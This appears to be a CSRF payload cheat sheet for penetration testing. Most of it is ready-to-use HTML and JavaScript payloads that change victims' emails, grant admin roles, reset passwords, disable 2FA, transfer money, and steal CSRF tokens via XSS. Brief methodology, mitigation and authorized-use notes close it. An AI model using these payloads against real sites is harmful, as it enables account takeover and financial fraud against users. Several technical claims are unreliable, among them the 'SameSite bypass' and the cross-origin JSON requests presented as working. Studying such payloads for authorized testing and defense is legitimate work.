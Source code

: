 # **Cross-Site Request Forgery (CSRF) Payload Cheat Sheet**

CSRF exploits force authenticated users to execute unintended actions on a web application. Below are various CSRF payloads for testing and exploitation.

---

## **1. Basic CSRF Payloads**

### **HTML Form-Based CSRF**
```html
<form action="https://victim.com/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="confirm" value="attacker@evil.com">
</form>
<script>document.forms[0].submit();</script>
```

### **GET Request CSRF (via `<img>` Tag)**
```html
<img src="https://victim.com/delete-account?id=1" width="0" height="0">
```

---

## **2. Advanced CSRF Techniques**

### **JSON CSRF (Using Fetch API)**
```html
<script>
  fetch('https://victim.com/api/update-profile', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ is_admin: true })
  });
</script>
```

### **CSRF with Auto-Submitting Form (No User Interaction)**
```html
<body onload="document.forms[0].submit()">
  <form action="https://victim.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="account" value="ATTACKER_ACCOUNT">
  </form>
</body>
```

---

## **3. Bypassing CSRF Protections**

### **Bypassing CSRF Tokens (If Token is Predictable)**
```html
<form action="https://victim.com/reset-password" method="POST">
  <input type="hidden" name="csrf_token" value="1234567890">
  <input type="hidden" name="new_password" value="hacked123">
</form>
<script>document.forms[0].submit();</script>
```

### **Stealing CSRF Tokens via XSS + CSRF**
```html
<script>
  fetch('https://victim.com/sensitive-action')
    .then(res => res.text())
    .then(html => {
      const token = html.match(/csrf_token="([^"]+)"/)[1];
      fetch('https://victim.com/change-email', {
        method: 'POST',
        body: `email=attacker@evil.com&csrf_token=${token}`
      });
    });
</script>
```

---

## **4. CSRF in REST APIs (JSON POST)**
### **Exploiting `application/json` Endpoints**
```html
<script>
  fetch('https://victim.com/api/update-role', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({ role: 'admin' })
  });
</script>
```

### **Bypassing `SameSite` Cookie Restrictions**
```html
<form action="https://victim.com/logout" method="POST">
  <input type="hidden" name="confirm" value="1">
</form>
<script>
  setTimeout(() => document.forms[0].submit(), 2000);
</script>
```

---

## **5. CSRF via Malicious File Uploads**
### **PDF with Auto-Submitting Form**
```html
<iframe src="data:application/pdf;base64,JVBERi0xLjMK...<PDF_CONTENT>..."></iframe>
<!-- PDF contains an auto-submitting form -->
```

---

## **6. CSRF in GraphQL APIs**
### **Exploiting GraphQL Mutations**
```html
<script>
  fetch('https://victim.com/graphql', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
      query: 'mutation { changePassword(newPassword: "hacked123") }'
    })
  });
</script>
```

---

## **7. Blind CSRF (No Response Needed)**
### **Exploiting Actions Without Feedback**
```html
<form action="https://victim.com/disable-2fa" method="POST">
  <input type="hidden" name="confirm" value="1">
</form>
<script>document.forms[0].submit();</script>
```

---

## **8. CSRF in WebSockets**
### **Triggering Actions via WebSocket**
```html
<script>
  const ws = new WebSocket('wss://victim.com/api');
  ws.onopen = () => ws.send(JSON.stringify({ action: 'delete_account' }));
</script>
```

---

## **9. CSRF via Flash (Old-School)**
### **Using Flash + `URLRequest`**
```actionscript
import flash.net.URLRequest;
var req = new URLRequest("https://victim.com/logout");
req.method = "POST";
flash.net.sendToURL(req);
```

---

## **10. Real-World Exploit Examples**
### **Changing Email via CSRF**
```html
<form action="https://victim.com/settings/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>document.forms[0].submit();</script>
```

### **Bank Transfer CSRF**
```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="5000">
  <input type="hidden" name="to_account" value="ATTACKER_ACCOUNT">
</form>
<script>document.forms[0].submit();</script>
```

---

## **Testing Methodology**
1. **Identify State-Changing Actions** (POST/GET endpoints).
2. **Check for CSRF Tokens** (and predictability).
3. **Test with Auto-Submitting Forms**.
4. **Verify if `SameSite` Cookies Mitigate Risk**.
5. **Check for CORS Misconfigurations**.

---

## **Mitigation**
- **Use CSRF Tokens** (synchronizer token pattern).
- **Implement `SameSite` Cookies** (`Strict` or `Lax`).
- **Require Re-Authentication for Sensitive Actions**.
- **Check `Origin`/`Referer` Headers**.

---

### **⚠️ Legal & Ethical Considerations**
- **Only test on authorized systems**.
- **CSRF can lead to account takeover, financial fraud**.
- **Disclose responsibly** if found in production.

---

This cheat sheet covers various CSRF exploitation techniques for penetration testing and bug bounty hunting. Use responsibly! 🚀